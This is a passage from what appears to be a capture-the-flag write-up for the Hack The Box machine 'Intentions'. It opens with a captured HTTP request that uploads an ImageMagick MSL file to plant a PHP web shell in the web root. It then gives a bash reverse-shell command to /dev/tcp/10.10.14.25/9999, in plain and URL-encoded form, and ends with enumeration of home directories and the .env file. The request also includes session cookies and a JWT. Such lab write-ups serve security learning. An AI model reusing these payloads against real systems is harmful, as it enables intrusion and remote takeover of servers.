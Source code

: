 Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=ABC
X-XSRF-TOKEN: eyJpdiI6Ik1QSkJSS0RyNkFuc3pXeERaY0I2VkE9PSIsInZhbHVlIjoidkRMVkw4WXgrQTBPd0lDbGQxT0xyNHYrSkp0KzRPMzUzSFV0VlRsWG5kYjU0OUM4bFpyTnNTMUpGeDRSRTFHY2dhK1ltOUtsMjRTeENMNGdMQjMvVnEvVElTazM5QjBySk9FaXF3NGhtT0h3OUI4Q080UDlVWGN1bm9CWEZENnoiLCJtYWMiOiJmMjllOGY4NTdiMDgzOWFjMmZkZmM2YzlmZDRlYWYwMjVmMjExNDk4MjA2NWUxNDAxYmY3YThmMWQ1ZTNiYWE5IiwidGFnIjoiIn0=
Content-Length: 398
Origin: http://10.10.11.220
Connection: keep-alive
Referer: http://10.10.11.220/admin
Cookie: XSRF-TOKEN=eyJpdiI6Ik1QSkJSS0RyNkFuc3pXeERaY0I2VkE9PSIsInZhbHVlIjoidkRMVkw4WXgrQTBPd0lDbGQxT0xyNHYrSkp0KzRPMzUzSFV0VlRsWG5kYjU0OUM4bFpyTnNTMUpGeDRSRTFHY2dhK1ltOUtsMjRTeENMNGdMQjMvVnEvVElTazM5QjBySk9FaXF3NGhtT0h3OUI4Q080UDlVWGN1bm9CWEZENnoiLCJtYWMiOiJmMjllOGY4NTdiMDgzOWFjMmZkZmM2YzlmZDRlYWYwMjVmMjExNDk4MjA2NWUxNDAxYmY3YThmMWQ1ZTNiYWE5IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IjlxREQwK1BxcVRWMXRoam5hR3kyREE9PSIsInZhbHVlIjoiMndMWER5SG5RY1pPaU5xTlVIQTVlM1J2M09JYmlOZXk4Z3QrTTE0bEhnWXhxOWJjK0NqdVY5TTRlZ3hRTjBqVlNabmwrekFudlN6Rlc4LzYvdUtxU0dwWmt3L2plZ00xNVgyaFFUckJiMjcxVkwrQ2IrQUsxWGtQbk05eUdBYlgiLCJtYWMiOiI0OTQ2NGFlOWY1YTYwYWNkOTJmNzAyNTI5YTRhYjk1ZDY2NmUyOGQ1OGEzYWFhY2FiYjY0Y2ZmODkwODRjZjA0IiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNzQzNzIxMTkyLCJleHAiOjE3NDM3NDI3OTIsIm5iZiI6MTc0MzcyMTE5MiwianRpIjoiZFlEUkZXbTRDNE5McDhCZiIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.m5lcL7eYo3r5uN_nLi4SAstSMPOtUvBsAcTIAahjO1g
Priority: u=0

--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system(@$_REQUEST['cmd']); ?&gt;" />
 
 <write filename="info:/var/www/html/intentions/public/rce.php" />
</image>

--ABC--
```
	- And then we can access the page and check user :
		- https://intentions.htb/rce.php?cmd=whoami
			- www-data
- Now we can add our exploit to this.
	- Capture the file location in BurpSuite (might need to upload again if taken too long)
	```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9999 0>&1'
URL Encode it
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9999+0>%261'
```
	- With our netcat listening we get our reverse shell as www-data
## Lateral movement to a user
- We check /home directory and find :
	- steven
	- greg
	- legal
	- **but we can't access them**
- We check /var/www/html/intentions and find some interesting folders:
	- .env file
	- .git folder
	- database
	- confiig/auth.php
- .env file gives us some data :
	```bash
cd /var/www/html/intentions/
cat .env
